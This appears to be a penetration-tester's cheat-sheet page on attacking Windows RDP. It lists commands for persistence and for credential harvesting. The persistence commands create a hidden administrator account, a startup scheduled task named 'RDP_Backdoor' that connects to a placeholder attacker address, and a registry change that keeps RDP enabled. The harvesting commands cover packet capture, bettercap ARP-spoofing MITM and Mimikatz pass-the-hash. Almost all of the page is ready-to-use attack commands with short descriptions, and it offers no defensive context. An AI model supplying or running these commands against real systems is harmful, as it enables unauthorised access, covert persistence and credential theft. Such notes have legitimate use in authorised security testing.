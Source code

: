 ## Initial Access


## Persistence

### Creating a Hidden Admin Account
- **Tool:** [[4. Tool Guides/Incomplete/PowerShell]]
	```bash
	net user hiddenadmin P@ssw0rd /add
	net localgroup administrators hiddenadmin /add
	```
- **Description:** Creates a hidden administrator account to maintain access to the system via RDP.

### Scheduled Tasks
- **Tool:** Windows Task Scheduler
    ```bash
    schtasks /create /tn "RDP_Backdoor" /tr "c:\windows\system32\cmd.exe /c mstsc /v:<attack_ip>:<attack_port>" /sc onstart
    ```
- **Description:** Creates a scheduled task that triggers an RDP session to the attacker's machine upon system startup.

### Maintaining RDP Access
- **Tool:** Windows Registry
	```bash
	reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
	```
- **Description:** Ensures that RDP remains enabled even after reboots or service restarts.

## Credential Harvesting

### Packet Capture
- **Tool:** [[Wireshark]]
    ```bash
    wireshark -i <interface> -f "tcp port 3389"
    ```
- **Description:** Capture traffic and extract plaintext credentials.

### Man-in-the-Middle (MITM) Attack
- **Tool:** [[BetterCap Cheat Sheet]]
	```bash
	bettercap -iface <interface> -T <target_ip> --proxy
	```
- **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

### Pass-the-Hash Attack
- **Tool:** [[Mimikatz Cheat Sheet]]
	```bash
	sekurlsa::pth /user:Administrator /domain:<domain> /ntlm:<hash> /run:<command>
	```
- **Description:** Uses extracted NTLM hashes to authenticate to RDP without needing plaintext passwords.
